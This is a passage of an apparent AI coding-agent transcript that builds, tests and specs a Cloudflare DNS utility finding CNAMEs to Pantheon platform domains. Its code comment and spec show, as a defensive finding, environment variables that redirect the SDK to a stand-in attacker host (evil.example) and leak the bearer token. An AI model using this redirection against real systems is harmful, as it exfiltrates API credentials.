tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -3 && uvx ruff@0.15.22 check --config ./pyproject.toml find-platform-domains-cloudflare && uvx pyright@1.1.411 --outputjson --level error find-platform-domains-cloudflare.py 2>/dev/null | python -c \"import json,sys; print('pyright:', json.load(sys.stdin)['summary'])\"",
  "description": "Apply fixes and re-verify"
}
```

### ↳ Tool result

```
fixed
.......................................................                  [100%]
55 passed in 0.30s
All checks passed!
pyright: {'filesAnalyzed': 1, 'errorCount': 0, 'warningCount': 0, 'informationCount': 0, 'timeInSec': 0.918}
Shell cwd was reset to /workspace
```

## Assistant

55 pass, ruff clean, pyright clean. Re-running the per-task staging with the corrected order, this time from inside each stage dir so the `tests/**` ignore pattern resolves:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport pathlib, re, subprocess, shutil, os\nfull  = pathlib.Path(\"find-platform-domains-cloudflare\").read_text()\ntests = pathlib.Path(\"test_find_platform_domains_cloudflare.py\").read_text()\nheader = full[:full.index(\"import argparse\")]\nrest   = full[full.index(\"PLATFORM_SUFFIX =\"):]\nall_imports = full[full.index(\"import argparse\"):full.index(\"PLATFORM_SUFFIX =\")].strip() + \"\\n\"\n\nSTOPS = {1: \"def resolve_env_marker\", 2: \"def plain(\", 3: \"def write_json_atomic\",\n         4: \"def expected_record_count\", 5: None}\nBASE2 = \"import os\\nimport re\\nimport shlex\\nimport tomllib\\nfrom pathlib import Path\\n\\nfrom cloudflare import Cloudflare\\n\"\nBASE4 = \"import json\\nimport os\\nimport re\\nimport shlex\\nimport tempfile\\nimport tomllib\\nfrom pathlib import Path\\n\\nfrom cloudflare import Cloudflare\\n\"\nIMPORTS = {1: \"import re\\n\", 2: BASE2, 3: BASE2, 4: BASE4, 5: all_imports}\nT1 = \"import importlib.util\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\"\nT3 = \"import importlib.util\\nimport json\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\"\nTIMPORTS = {1: T1, 2: T1, 3: T3, 4: T3, 5: T3}\nt_head = tests[:tests.index(\"import importlib.util\")]\nt_body = tests[tests.index(\"pytestmark = pytest.mark.unit\"):]\nt_marks = [m.start() for m in re.finditer(r\"^# --- Task \\d\", t_body, re.M)] + [len(t_body)]\n\nshutil.rmtree(\"stage\", ignore_errors=True)\nfor task in (1, 2, 3, 4, 5):\n    d = pathlib.Path(f\"stage/task{task}\"); (d / \"tests/unit\").mkdir(parents=True)\n    shutil.copy(\"probe/pyproject.toml\", d / \"pyproject.toml\")\n    stop = STOPS[task]\n    body = rest if stop is None else rest[:rest.index(stop)]\n    f = d / \"find-platform-domains-cloudflare\"\n    f.write_text(header + IMPORTS[task] + \"\\n\" + body.rstrip() + \"\\n\"); f.chmod(0o755)\n    (d / \"tests/unit/test_find_platform_domains_cloudflare.py\").write_text(\n        (t_head + TIMPORTS[task] + \"\\n\" + t_body[:t_marks[task]]).rstrip() + \"\\n\")\n    r = subprocess.run([\"uvx\", \"ruff@0.15.22\", \"check\", \"--output-format\", \"concise\", \".\"],\n                       capture_output=True, text=True, cwd=d)\n    status = \"clean\" if not r.stdout.strip() or \"All checks passed\" in r.stdout else r.stdout.strip()\n    print(f\"Task {task}: {status}\")\nPY",
  "description": "Re-verify every per-task checkpoint lints clean"
}
```

### ↳ Tool result

```
Task 1: clean
Task 2: clean
Task 3: clean
Task 4: clean
Task 5: clean
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && for t in 1 2 3 4 5; do cd stage/task$t; r=$(python -m pytest tests/unit -q -p no:cacheprovider 2>&1 | tail -1); echo \"Task $t: $r\"; cd ../..; done",
  "description": "Verify pytest passes at every per-task checkpoint"
}
```

### ↳ Tool result

```
Task 1: 8 passed in 0.08s
Task 2: 24 passed in 0.19s
Task 3: 36 passed in 0.24s
Task 4: 39 passed in 0.24s
Task 5: 55 passed in 0.29s
Shell cwd was reset to /workspace
```

## Assistant

Every checkpoint now lints **and** tests clean: **8 / 24 / 36 / 39 / 55**. Reading back the verified files so the spec carries byte-identical code:

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/find-platform-domains-cloudflare",
  "offset": 106,
  "limit": 120
}
```

### ↳ Tool result

```
106	    return MARKER_RE.sub(lambda match: resolve_env_marker(match.group(1), where), value)
107	
108	
109	def build_client(**creds):
110	    """Build a Cloudflare client that uses EXACTLY the credentials the config supplied.
111	
112	    Measured on cloudflare 5.4.0: the SDK back-fills every credential argument left None from the
113	    environment.  It reads SIX variables, and ambient values reach the wire by FOUR routes --
114	
115	      1. `auth_headers` returns the FIRST of email -> key -> token -> user_service_key that is
116	         set, and only that one -- so an ambient CLOUDFLARE_EMAIL beats a configured token;
117	      2. `default_headers` separately adds X-Auth-Key / X-Auth-Email whenever those attributes
118	         are not None;
119	      3. $CLOUDFLARE_CUSTOM_HEADERS is merged LAST into default_headers, overriding 1 and 2; and
120	      4. $CLOUDFLARE_BASE_URL redirects every request, sending the configured credential to an
121	         arbitrary host.
122	
123	    Routes 1 and 2 are closed by nulling the fields the config did not supply (both read these
124	    attributes at request-build time); route 3 by clearing _custom_headers; route 4 by pinning
125	    base_url.  Routes 3 and 4 were missed on the first pass -- and 4 is worse than the defect
126	    this function was written for, because the credential LEAVES THE MACHINE rather than merely
127	    failing to authenticate.  This pin is SDK-version-sensitive: measured against cloudflare
128	    5.4.0, and pyproject declares the dependency unpinned as "cloudflare".  (The main program's
129	    plugin/cloudflare/client.py has all four; fixing it is a separate change.)
130	    """
131	    client = Cloudflare(**creds, base_url=API_BASE_URL)
132	    for field in ("api_token", "api_key", "api_email", "user_service_key"):
133	        if field not in creds:
134	            setattr(client, field, None)
135	    client._custom_headers = {}  # noqa: SLF001 -- $CLOUDFLARE_CUSTOM_HEADERS is merged LAST
136	    # into default_headers, so it overrides the pinned Omit()s above; there is no public API
137	    # for "ignore that variable".  Measured: without this line and the base_url pin above,
138	    # exporting CLOUDFLARE_BASE_URL pointed at an attacker host, together with a
139	    # CLOUDFLARE_CUSTOM_HEADERS value supplying X-Auth-Email and X-Auth-Key, sends
140	    # `Authorization: Bearer <the real token>` to that host -- the pinned credential leaves the
141	    # machine.  That is strictly worse than the defect the field pinning above fixes.
142	    return client
143	
144	
145	def cloudflare_client(config_path):
146	    """Build the Cloudflare client from the [Cloudflare] table of the TOML at `config_path`.
147	
148	    api_token wins when present; otherwise email + api_key, both required -- the same precedence
149	    plugin/cloudflare/client.py uses.  `enabled` is deliberately NOT consulted: that flag governs
150	    the main program's per-site Cloudflare work, and refusing to run this utility because of it
151	    would be a surprise to an operator who invoked it on purpose.
152	    """
153	    try:
154	        with Path(config_path).open("rb") as handle:
155	            config = tomllib.load(handle)
156	    except OSError as e:
157	        raise StartupError(f"cannot read {config_path}: {e}") from e
158	    except tomllib.TOMLDecodeError as e:
159	        raise StartupError(f"{config_path} is not valid TOML: {e}") from e
160	
161	    section = config.get("Cloudflare")
162	    if not isinstance(section, dict):
163	        raise StartupError(f"{config_path} has no [Cloudflare] section")
164	
165	    def value(key):
166	        """One credential, type-checked where it is read then marker-resolved.
167	
168	        TOML is a typed format, so `api_token = true` (an unquoted value -- an ordinary typo) is
169	        a bool, which `if api_token:` accepts and the SDK stringifies into
170	        `Authorization: Bearer True` -- exactly the confusing 401 that resolve_env_marker refuses
171	        to cause for an unresolvable marker.  The check belongs here, where the value is read.
172	        """
173	        raw = section.get(key)
174	        where = f"{config_path} [Cloudflare].{key}"
175	        if raw is not None and not isinstance(raw, str):
176	            raise StartupError(f"{where} must be a string, got {type(raw).__name__}")
177	        return resolve_config_value(raw, where)
178	
179	    api_token = value("api_token")
180	    if api_token:
181	        return build_client(api_token=api_token)
182	    email = value("email")
183	    api_key = value("api_key")
184	    if not email or not api_key:
185	        raise StartupError(
186	            f"{config_path} [Cloudflare] needs either api_token, or both email and api_key")
187	    return build_client(api_email=email, api_key=api_key)
188	
189	
190	def plain(value):
191	    """A JSON-serializable copy of an SDK sub-model; anything already plain passes through.
192	
193	    record.settings is a pydantic model (cloudflare.types.dns.cname_record.Settings), which
194	    json.dump cannot serialize.  mode="json" also coerces any nested exotic types.  The
195	    getattr guard is what lets the test fakes pass a plain dict or None.
196	    """
197	    dump = getattr(value, "model_dump", None)
198	    if dump is None:
199	        return value
200	    return dump(mode="json")
201	
202	
203	def collect_entries(zone_records):
204	    """Fold (zone_id, record) pairs into the output mapping.  Returns (entries, warnings).
205	
206	    A record is kept only when it is a CNAME whose content is a *.pantheonsite.io hostname.
207	    Proxy status is NOT part of the test -- that is exactly what separates this script from
208	    fqdns.json, which is built with proxied=True and therefore cannot see a DNS-only record.
209	
210	    Every scalar (zone_id, record_id, proxied, ttl, comment, tags, settings) is
211	    FIRST-RECORD-WINS, mirroring how fqdns.json already keeps only the first zone_id for a name.
212	    `origins` accumulates every match, so a name that matches more than once stays visible in the
213	    file and not only in the warning.
214	
215	    `zone_records` is consumed lazily, so the caller can hand over a generator and the whole
216	    organization's record set is never held in memory at once.
217	    """
218	    entries = {}
219	    warnings = []
220	    for zone_id, dns_record in zone_records:
221	        if getattr(dns_record, "type", None) != "CNAME":
222	            continue
223	        content = getattr(dns_record, "content", None)
224	        if content is None or not is_platform_domain(content):
225	            continue
```

## Assistant

Now regenerating the spec, splicing the **verified** code so the document and the tested artifact cannot drift:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PYEOF'\nimport pathlib, re\nfull  = pathlib.Path(\"find-platform-domains-cloudflare\").read_text()\ntests = pathlib.Path(\"test_find_platform_domains_cloudflare.py\").read_text()\nheader = full[:full.index(\"import argparse\")]\nrest   = full[full.index(\"PLATFORM_SUFFIX =\"):]\nSTOPS = [\"def resolve_env_marker\", \"def plain(\", \"def write_json_atomic\",\n         \"def expected_record_count\"]\nidx = [rest.index(s) for s in STOPS]\nS = {1: header + \"import re\\n\\n\" + rest[:idx[0]].rstrip(),\n     2: rest[idx[0]:idx[1]].rstrip(),\n     3: rest[idx[1]:idx[2]].rstrip(),\n     4: rest[idx[2]:idx[3]].rstrip(),\n     5: rest[idx[3]:].rstrip()}\n\nt_head = tests[:tests.index(\"import importlib.util\")]\nT1_IMPORTS = (\"import importlib.util\\nimport types\\n\"\n              \"from importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\n\"\n              \"import pytest\\n\")\nt_body = tests[tests.index(\"pytestmark = pytest.mark.unit\"):]\nmarks = [m.start() for m in re.finditer(r\"^# --- Task \\d\", t_body, re.M)] + [len(t_body)]\nT = {1: (t_head + T1_IMPORTS + \"\\n\" + t_body[:marks[1]]).rstrip(),\n     2: t_body[marks[1]:marks[2]].rstrip(),\n     3: t_body[marks[2]:marks[3]].rstrip(),\n     4: t_body[marks[3]:marks[4]].rstrip(),\n     5: t_body[marks[4]:].rstrip()}\n\npathlib.Path(\"slices.py\").write_text(\n    \"S = \" + repr(S) + \"\\nT = \" + repr(T) + \"\\n\")\nfor k in S: print(f\"script slice {k}: {len(S[k].splitlines())} lines\")\nfor k in T: print(f\"test   slice {k}: {len(T[k].splitlines())} lines\")\nPYEOF",
  "description": "Slice verified code per task"
}
```

### ↳ Tool result

```
script slice 1: 51 lines
script slice 2: 122 lines
script slice 3: 67 lines
script slice 4: 27 lines
script slice 5: 205 lines
test   slice 1: 70 lines
test   slice 2: 144 lines
test   slice 3: 99 lines
test   slice 4: 27 lines
test   slice 5: 246 lines
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PYEOF'\nimport pathlib, sys\nsys.path.insert(0, \".\")\nfrom slices import S, T\n\nPROSE = pathlib.Path(\"/workspace/development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\n\ndoc = []\nw = doc.append\n\nw('''# `find-platform-domains-cloudflare` — Spec & Implementation Plan\n\n> **For agentic workers:** REQUIRED SUB-SKILL: Use `superpowers:subagent-driven-development`\n> (recommended) or `superpowers:executing-plans` to implement this plan task-by-task. Steps use\n> checkbox (`- [ ]`) syntax for tracking. Dispatch every code-touching subagent as\n> **`psh-implementer`** and every reviewer as **`psh-reviewer`** (CLAUDE.md § Dispatching\n> subagents).\n>\n> **Commit authorization.** CLAUDE.md § Other/General says *\"Commit only when asked.\"* The\n> operator gave that authorization for this plan in the design session of **2026-07-30**, in\n> answer to the review question *\"How should the plan handle the live production run and the\n> per-task commits?\"* —选择: *\"STOP before live run; commits pre-authorized.\"* The `git commit`\n> step ending each task below **is** that authorization. It does not extend to branching,\n> pushing, amending, or any commit outside these tasks.\n>\n> **One structural STOP exists** — the head of **Task 7**, before anything touches production\n> Cloudflare. Tasks 1–6 are entirely offline and are not gated.\n>\n> **Lint governance.** `pyproject.toml`'s `[tool.ruff.lint]` block requires a justification\n> comment for each new `per-file-ignores` entry \"AND a LEDGER.md entry (until the campaign\n> closes)\". The modularization campaign **is** closed (CLAUDE.md § How this architecture came to\n> be), so the LEDGER half no longer applies; the justification comments in Task 1 Step 5 satisfy\n> what remains. Stated here so a reader does not have to re-derive it.\n\n**Goal:** A standalone, deletable utility that writes every Cloudflare DNS **CNAME record whose\ntarget ends in `.pantheonsite.io`** — proxied or not, in every zone of every account the\ncredentials can see — to `./platform-domains-cloudflare.json`, regenerated in full on every run.\n\n**Architecture:** One executable script at the repo root, `find-platform-domains-cloudflare`,\nimporting nothing from `psh/`, `check/`, `plugin/`, or `script_context`. It re-implements (by\ncopying, not importing) the three things it needs from the main program: the `[Cloudflare]`\ncredential read, the account → zone → DNS-record walk from `plugin/cloudflare/fqdns.py`, and that\nmodule's atomic JSON write. Deletion after Pantheon's CDN migration is `git rm` of the script, its\n`.py` symlink and its test file, plus five one-line tooling entries (§11).\n\n**Tech Stack:** Python 3.12+, the `cloudflare` SDK (already declared under this project's\n`cloudflare` extra), `tomllib`, `argparse`. No new dependencies. Tests: pytest, `unit` tier,\nfully offline, 55 tests.\n\n## Global Constraints\n\n- **Standalone.** The script imports nothing from `psh/`, `check/`, `plugin/`, or\n  `script_context`. Copied code lives *in* the script, not in a shared module — deletion must stay\n  a `git rm`.\n- **Temporary.** Delete after Pantheon completes the Fastly → Pantheon-Cloudflare CDN migration.\n  Every file the script touches carries a comment saying so and pointing at §11.\n- **Output path:** `./platform-domains-cloudflare.json`, a module-level constant. No `--output`\n  flag.\n- **Platform suffix:** `.pantheonsite.io` (with the leading dot), a module-level constant.\n- **Always regenerate.** No existence check, no staleness check, no load-existing path. Every run\n  writes the file, including a run that matched nothing (which writes `{}`).\n- **Efficiency is explicitly not a goal** (PROMPT). Prefer the simplest correct code at every fork.\n- **Measured SDK baseline: `cloudflare` 5.4.0.** Several behaviors this spec relies on (R2a, R3)\n  are SDK-internal and were measured, not assumed. `pyproject.toml` declares the dependency\n  **unpinned** as `\"cloudflare\"`, so an SDK upgrade is the one external change that can invalidate\n  them. §7 therefore includes tests that touch the **real** SDK classes, not only the fakes — see\n  §8.10.\n- **Lint/type gates apply at every checkpoint, not just the end.** `./run-tests` runs ruff over\n  the whole repo and then pyright, and **gates on both before pytest runs at all** (`run-tests`:\n  *\"Lint AND type-check BEFORE pytest, and gate on them -- in --fast and full alike\"*). Every task\n  below therefore introduces only the imports its own code uses; a task that imported ahead would\n  fail `F401` and never reach its own tests. Measured: all five checkpoints lint clean.\n- **House style:** 4-space indent, `\"\"\"docstrings\"\"\"` explaining *why*, `# --` comment banners,\n  `allow_abbrev=False` on the parser.\n\n## Requirement vocabulary\n\n- **MUST** / **MUST NOT** / **NEVER** — a violation is a defect; the implementation is wrong.\n- **SHOULD** — do it unless there is a stated reason not to, recorded in the code.\n- **MAY** — genuinely optional.\n\n**NEVER-block (tests are load-bearing):** a test in §7 **MUST NOT** be deleted, skipped,\n`xfail`ed, or weakened to make a change pass. If a test goes red, the change is wrong until proven\notherwise. **NEVER** refresh an assertion to match new output without first establishing that the\nnew output is correct. **NEVER** print an API response body, at any verbosity, and never include\none in an error message (see R6/§6).\n\n## Glossary\n\n| Term | Meaning in this document |\n|---|---|\n| **platform domain** | A Pantheon-provided hostname ending in `.pantheonsite.io`. See R4 for the scoping assumption this carries. |\n| **custom domain** | A hostname an institution owns that points at a platform domain. |\n| **entry** | One key/value pair in the output file: an FQDN mapped to `{zone_id, origins, record_id, proxied, ttl, comment, tags, settings}`. |\n| **origin** | The raw `content` of a matching CNAME record. **Narrower than `fqdns.json`'s field of the same name** — see R5a. |\n| **fold** | `collect_entries`, the pure function turning `(zone_id, record)` pairs into entries + warnings. |\n| **marker** | A `<{ … }` config substitution, e.g. `<{secret env CLOUDFLARE_API_KEY}`. The trailing `>` seen in sample config is decorative and not part of the syntax. |\n| **the walk** | `fetch_platform_cnames`: accounts → zones → DNS records. |\n| **truncation** | A paginated list that silently returns fewer items than exist. R3's `total_count` cross-check exists for exactly this. |\n| **concurrent change** | A record or zone added/removed *during* the sweep, which makes counts disagree for a benign reason. R3's one re-read distinguishes it from truncation. |\n| **DNS-only** | A record with `proxied: false`. Invisible to `fqdns.json`, which is built with `proxied=True`. |\n| **the sibling** | `find-platform-domains-dns`, the public-DNS counterpart utility. |\n\n---\n\n## 1. What this is and why\n\nPart of the Pantheon CDN migration. Custom domains that still reach Pantheon's legacy CDN must be\nrewritten to Pantheon's new records. The sibling utility `find-platform-domains-dns` finds them\nfrom **public DNS**. That is blind to a **Cloudflare-proxied** record, whose CNAME target is\ninvisible outside Cloudflare — and `fqdns.json`, the main program's Cloudflare data source, is\nbuilt with `proxied=True` and so is blind to every **DNS-only** record.\n\nThis script closes the second gap: it inspects **all** records in **all** zones and reports the\nCNAMEs pointing at a Pantheon platform domain, whatever their proxy status.\n\nIts output is the input to the record-rewrite work described in `research.md` in this folder.\n\n## 2. Normative behavior\n\n### 2.0 — The pipeline (PD#8)\n\n```\n argv ──▶ build_arg_parser ──▶ options{config, verbose}\n                                    │\n                                    ▼\n                     cloudflare_client(config_path)                      ERROR FUNNEL\n                     ├─ tomllib.load ────────── OSError/TOMLDecodeError ─────┐\n                     ├─ [Cloudflare] present? ── missing ────────────────────┤\n                     ├─ value(key) ───────────── non-str ────────────────────┤\n                     │    └─ resolve_config_value                            │\n                     │         └─ resolve_env_marker ── unset / unbalanced ──┤\n                     │                                  / non-env form       │\n                     └─ build_client   pins 4 cred fields + base_url         │\n                                       + clears _custom_headers  (R2a)       │\n                                    │                                        │\n                                    ▼                                        │\n                     fetch_platform_cnames(client)                           │\n                     │                                                       │\n                     ├─ read_all(accounts) ──┐                               │\n                     ├─ read_all(zones/acct) ─┼── CloudflareError ───────────┤\n                     ├─ zero zones ──────────┴──────────────────────────────┤\n                     │                                                       │\n                     │   ┌─ per zone ─────────────────────────────────────┐  │\n                     │   │  read_all(records)                             │  │\n                     │   │    page 1..N  ──▶ items, total_count           │  │\n                     │   │    match?  ──yes──▶ (items, checked=True)      │  │\n                     │   │    no total_count ─▶ (items, checked=False)    │  │\n                     │   │    mismatch ─▶ RE-READ once                    │  │\n                     │   │        re-read self-consistent ─▶ concurrent   │  │\n                     │   │                                   change, keep │  │\n                     │   │        still inconsistent ── truncated ────────┼──┤\n                     │   └──────────────────┬─────────────────────────────┘  │\n                     │                      ▼                                │\n                     └──────────▶ collect_entries(pairs)                     │\n                                  │ CNAME? platform target?                  │\n                                  │ first-record-wins, origins accumulate    │\n                                  ▼                                          │\n                           SweepResult(entries, warnings, accounts,           │\n                                       zones, records, zones_checked)        │\n                                  │                                          │\n             warnings ──▶ stderr ◀┤                                          │\n                                  ▼                                          │\n                      write_json_atomic(OUTPUT_FILE)                         │\n                          └── OSError ─────────────────────────────────────  ┤\n                                  │                                          │\n             summary + coverage ──┤                                          │\n             zero-match ATTENTION ┤                                          ▼\n                                  ▼                                   StartupError\n                              exit 0                                         │\n                                                                             ▼\n             KeyboardInterrupt ─────────────────────▶ exit 130            exit 2\n```\n\nEverything on the ERROR FUNNEL becomes a `StartupError`, is printed as one `ERROR:` line, and\nexits **2**. Nothing on it reaches exit 1 — see R6.\n\n### R1 — CLI\n\n```\nfind-platform-domains-cloudflare [-c CONFIG] [-v]\n```\n\n| Flag | Default | Meaning |\n|---|---|---|\n| `-c`, `--config` | `pantheon-sitehealth-emails.toml` | TOML file to read `[Cloudflare]` credentials from |\n| `-v`, `--verbose` | off | per-zone progress, record counts, and re-read notices on stderr |\n\n`allow_abbrev=False` (house rule). There are no positional arguments. Verbosity is deliberately a\n**boolean**, not the main program's counted `-v/-vv/-vvv` — matching the sibling utility (§8.9).\n\n### R2 — Credentials\n\nRead the `[Cloudflare]` table from the TOML with `tomllib`, then resolve `<{...}` substitution\nmarkers in the string values with a **copied mini-resolver** supporting exactly the `env` and\n`secret env` forms, with an optional trailing default:\n\n```\n<{env NAME}          <{env NAME DEFAULT}\n<{secret env NAME}   <{secret env NAME DEFAULT}\n```\n\n- Marker syntax is `<{` … `}`. The recognizing regex is copied verbatim from\n  `psh/configuration.py`: `re.compile(r\"<\\\\{(.*?)(?<!\\\\\\\\)}\")`.\n- Markers are substituted **inside** a value (`re.sub`), so `\"prefix<{env X}suffix\"` works,\n  matching `process_config()`.\n- Each credential value **MUST** be type-checked as a `str` *where it is read*. TOML is a typed\n  format, so `api_token = true` is a `bool`, which `if api_token:` accepts and the SDK stringifies\n  into `Authorization: Bearer True`. *(Same defect class as the sibling spec's whole-branch review\n  finding C1, applied here before it could ship.)*\n- A **non-`env`** substitution (e.g. `<{secret aws …}`) is a `StartupError` naming the config key.\n  It is **not** silently passed through: a literal `\"<{secret aws cloudflare/token}\"` sent as an\n  API token would produce a confusing 401.\n- An **unbalanced quote** in a marker (`<{env FOO don't}`) makes `shlex` raise `ValueError`; that\n  **MUST** be converted to a `StartupError`. Left alone it escapes as a raw traceback at exit 1 —\n  a code R6 does not use.\n- An unset env var with no default is a `StartupError` naming the variable.\n- A non-string value passes through `resolve_config_value` untouched; only `str` values are\n  scanned. (After the type check above, only `None` ever reaches it.)\n\n**Deliberate divergence from the main engine, documented in the script:** the marker body is\ntokenized with `shlex.split()` (whitespace-splitting) rather than the engine's\n`list(shlex.shlex(expr, posix=True))` (which also splits on punctuation, turning\n`<{env FOO some-default}` into five tokens; the engine then scores 3 of 5 and reports *\"no match\nfound for configuration file value\"* — `configuration.py:98`, not the \"unknown substitution\"\nbranch). The two agree on every marker the main program can actually resolve.\n\n`api_token` wins when present and truthy; otherwise both `email` and `api_key` are required.\n`enabled` is **not consulted** — the operator ran this script deliberately.\n\n### R2a — Credential isolation (load-bearing; found and then corrected by measurement)\n\nThe `cloudflare` SDK back-fills any credential argument left as `None` from the environment. It\nreads **six** variables, and ambient values reach the wire by **four** routes:\n\n| # | Route | What it does | Closed by |\n|---|---|---|---|\n| 1 | `auth_headers` (`_client.py:1127`) | returns the **first** of email → key → token → user_service_key, and only that one — so an ambient `CLOUDFLARE_EMAIL` beats a configured token | nulling the unsupplied fields |\n| 2 | `default_headers` (`_client.py:1168`) | separately adds `X-Auth-Email`/`X-Auth-Key` whenever those attributes are not `None` | nulling the unsupplied fields |\n| 3 | `$CLOUDFLARE_CUSTOM_HEADERS` | merged **last** into `default_headers`, overriding 1 and 2 | `client._custom_headers = {}` |\n| 4 | `$CLOUDFLARE_BASE_URL` | redirects every request — **sends the configured credential to an arbitrary host** | `base_url=API_BASE_URL` |\n\nMeasured on cloudflare 5.4.0, with the field-pinning alone (routes 3 and 4 open):\n\n```\n$ CLOUDFLARE_BASE_URL=https://evil.example/v4 \\\\\n  CLOUDFLARE_CUSTOM_HEADERS=$'X-Auth-Email: attacker@evil.example\\\\nX-Auth-Key: evil-key' python\nURL     : https://evil.example/v4/zones\nheaders : {'authorization': 'Bearer tok-123',\n           'x-auth-email': 'attacker@evil.example', 'x-auth-key': 'evil-key'}\n```\n\nand with all four closed:\n\n```\nURL     : https://api.cloudflare.com/client/v4/zones\nauth hdr: {'authorization': 'Bearer tok-123'}\n```\n\n**Route 4 is strictly worse than the defect this function was originally written for**: the\ncredential *leaves the machine* rather than merely failing to authenticate. Routes 3 and 4 were\nmissed on the first pass and found in round 2 of review (§13).\n\nThe test **MUST** assert the *security property* — the URL and the headers of the request the SDK\nwould actually send, with **all six** ambient variables exported — not the attribute state that\nimplements it.\n\n> **Out of scope, report to the operator:** `plugin/cloudflare/client.py`'s `build_client()` has\n> **all four** routes open — `Cloudflare(api_token=api_token)` with no pinning of any kind.\n> Measured: not live today only because U-M's config leaves `api_token` commented out and passes\n> `api_email` + `api_key` explicitly, which happens to win route 1. `$CLOUDFLARE_BASE_URL` is\n> exploitable against the main program **today**, regardless of which credential form is\n> configured. Fixing it is a separate change to the main program (§8.7).\n\n### R3 — The walk, and the truncation guard\n\n`client.accounts.list()` → per account `client.zones.list(account={\"id\": account.id})` → per zone\n`client.dns.records.list(zone_id=zone.id)`.\n\n- **No `proxied=` filter and no `type=` filter.** Every record in every zone is fetched and\n  inspected; the CNAME and suffix tests happen in this script. (If a run ever becomes painful,\n  `type=\"CNAME\"` on the records list call is the one-word change — §8.3.)\n- **All three endpoints paginate**, and all three return `SyncV4PagePaginationArray`. Verified:\n  `next_page_info` asks for `page = last + 1` (`pagination.py:104`), `has_next_page` stops on an\n  empty page (`_base_client.py:186`), `BaseSyncPage.__iter__` walks every page\n  (`_base_client.py:256`). This is page-number pagination, **not** the opaque-cursor shape that\n  produced the Pantheon API's silent \"returns page 1 again\" bug, so the SDK's own loop is trusted\n  to terminate.\n- **All three are cross-checked** by `read_all` against Cloudflare's `total_count`.\n  `V4PagePaginationArrayResultInfo` declares only `page`/`per_page`, but its `model_config` is\n  `extra=\"allow\"`, so `total_count` survives as `model_extra` (verified). A short **zone** list\n  silently omits every record in the missing zones — strictly worse than a short record list, and\n  the zero-zones guard only catches the degenerate case.\n- **A mismatch triggers exactly one re-read, then decides.** `total_count` is computed for the\n  *first* page, so a record or zone added or deleted between that page and the last makes counts\n  disagree for an entirely benign reason — likely across a sweep measured in tens of minutes at an\n  institution that actively manages this DNS. A second read that agrees with **its own**\n  `total_count` is a concurrent change and is the answer kept; a second disagreement is truncation\n  and is **fatal**, with **no file written**. Conflating the two would misdiagnose the common case\n  and send the operator hunting an API bug.\n- **When `total_count` is absent the check no-ops** rather than guessing — it can never abort a\n  healthy sweep. `read_all` returns whether it was live, and `main()` reports the coverage: a\n  guard that silently never ran looks exactly like one that ran and found nothing wrong (§6).\n- Any `cloudflare.CloudflareError` → `StartupError` (exit 2), rendered by `api_error_text`, which\n  **NEVER** includes the response body (R6).\n- **Zero zones is fatal** (copied from `fqdns.py`). The message names **both** `Account:Read` and\n  `DNS:Read` — an accounts list that comes back empty yields zero zones just as a missing\n  `DNS:Read` does.\n- Zero matching CNAMEs is **not** fatal — it writes `{}` and says so loudly on stderr.\n\n### R4 — The match\n\nA record is kept when **both** hold:\n\n1. `record.type == \"CNAME\"`, and\n2. `normalize(record.content).endswith(\".pantheonsite.io\")`\n\nwhere `normalize` is copied verbatim from the sibling: lowercase, strip whitespace, strip the\ntrailing root dot. Proxy status is **irrelevant to the match** — that is the entire point of this\nscript versus `fqdns.json`.\n\n**Scoping assumption, stated as one:** `.pantheonsite.io` is the *only* platform suffix matched,\nper PROMPT line 7. Pantheon's legacy `*.gotpantheon.com` hostnames are **not** covered, and grep\nfinds no occurrence of that domain anywhere in this repo. If any custom domain still CNAMEs there,\nthis sweep reports a clean result for it — see §14 Q7.\n\nConsequences pinned in tests: `notpantheonsite.io` does not match (the constant carries the\nleading dot); the bare apex `pantheonsite.io` does not match; an **A** record whose content reads\nas a platform domain does not match; a **DNS-only** CNAME **does** match.\n\n### R5 — Output format\n\n`./platform-domains-cloudflare.json`, JSON object keyed by the **normalized** FQDN, `indent=4`,\n`sort_keys=True`, trailing newline — the same serialization `write_fqdns_atomic` uses.\n\n```json\n{\n    \"example1.cdn-dev.it.umich.edu\": {\n        \"comment\": \"migrated 2026-07\",\n        \"origins\": [\n            \"live-umich-example1.pantheonsite.io\"\n        ],\n        \"proxied\": true,\n        \"record_id\": \"9f0e1b2c3d4e5f60718293a4b5c6d7e8\",\n        \"settings\": {\n            \"flatten_cname\": false,\n            \"ipv4_only\": null,\n            \"ipv6_only\": null\n        },\n        \"tags\": [],\n        \"ttl\": 1,\n        \"zone_id\": \"abc123def456\"\n    }\n}\n```\n\n- `record_id`, `proxied`, `ttl`, `comment`, `tags`, `settings` exist because `research.md` shows\n  the downstream batch rewrite needs the record id for `deletes` and `proxied` on re-creation, and\n  its **reverse** direction hardcodes `\"ttl\": 1` and would otherwise silently discard an explicit\n  TTL, operator comments, tags, and `settings.flatten_cname`.\n- **`settings` MUST be `.model_dump(mode=\"json\")`ed.** It is a pydantic model\n  (`cloudflare.types.dns.cname_record.Settings`); `json.dump` cannot serialize one. Verified: an\n  un-dumped entry raises `TypeError` at write time, after the whole walk.\n- **First-record-wins** for every scalar; `origins` accumulates.\n- `origins` entries are the **raw** `record.content` as Cloudflare returned it — the raw string is\n  what a rewriter compares against.\n- **Freshness is the file's mtime and nothing else.** The file drives a *destructive* rewrite\n  (`deletes` in 